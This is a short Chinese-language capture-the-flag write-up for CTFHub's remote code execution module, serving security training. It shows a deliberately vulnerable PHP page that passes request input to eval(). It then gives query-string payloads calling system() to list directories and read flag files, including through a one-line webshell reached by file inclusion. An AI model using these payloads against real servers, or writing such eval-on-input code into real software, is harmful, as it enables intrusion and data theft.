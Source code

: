 # CTFHub-RCE 模块

## eval()执行
```php
 <?php
if (isset($_REQUEST['cmd'])) {
    eval($_REQUEST["cmd"]);
} else {
    highlight_file(__FILE__);
}
?> 
```

> ✨ 没啥过滤的
>

```php
/?cmd=system("ls /");
/?cmd=system("cat /flag_17544");
```

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736913432352-9edbc657-2220-481e-bc30-59df66ecfbeb.png)

## 文件包含
![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736913515373-1e665137-9a58-4816-9a0b-6ccbae812ea7.png)

> 上述代码过滤了 flag
>

点开 shell 得到了一点信息

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736913555987-bef278f1-1ac4-49d6-a2d7-144b30adfd51.png)

> ✨
>
> 使用 shell.txt 的内容是一句话木马
>
> 可以使用 file 传参 shell.txt 产生注入点
>

```php
/?file=shell.txt&ctfhub=system("ls /");
/?file=shell.txt&ctfhub=system("cat /flag");
```

> 也可以用蚁剑连接
>

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736913960316-713cb74b-8da2-4bb5-86ee-c74cc95a1ded.png)

![](https://cdn.nlark.com/yuque/0/2025/png/49936693/1736914004963-8b19af2f-15af-479f-a0f8-268a8e6ae261.png)
